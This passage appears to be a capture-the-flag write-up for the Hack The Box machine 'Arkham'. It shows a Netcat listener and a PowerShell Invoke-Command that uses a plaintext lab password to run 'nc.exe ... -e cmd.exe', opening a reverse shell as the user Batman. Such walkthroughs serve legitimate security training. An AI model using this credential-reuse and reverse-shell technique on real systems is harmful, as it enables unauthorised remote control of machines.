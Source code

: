 ![attachment](attachment.png)

That looks like login credentials.

```plaintext
C:\Users\Alfred\Downloads\backups>net user Batman
User name                    Batman
Full Name                                           
[...]
Local Group Memberships      *Administrators       *Remote Management Use
                             *Users
```

As we can see here, `Batman` is a member of `Administrators`. That is good. We can try to use `runas` command to run commands as `Batman`, but for some reason the command exists silently. We can try to use `powershell` to do the same:

First start a listener on your local machine:

```console
root@kali:~/htb/arkham# nc -lvnp 1235
listening on [any] 1235 ...
connect to [10.10.13.171] from (UNKNOWN) [10.10.10.130] 49784
```

Then use `Invoke-Command` to execute a reverse shell as `Batman`.

```plaintext
C:\tomcat\apache-tomcat-8.5.37\bin>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\tomcat\apache-tomcat-8.5.37\bin> $username = "Batman"
PS C:\tomcat\apache-tomcat-8.5.37\bin> $password = "Zx^#QZX+T!123"
PS C:\tomcat\apache-tomcat-8.5.37\bin> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS C:\tomcat\apache-tomcat-8.5.37\bin> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
PS C:\tomcat\apache-tomcat-8.5.37\bin> Invoke-Command -Credential $credential -ComputerName ARKHAM -ScriptBlock {cmd.exe /c "C:\tomcat\apache-tomcat-8.5.37\bin\nc.exe 10.10.13.171 1235 -e cmd.exe"}       
```
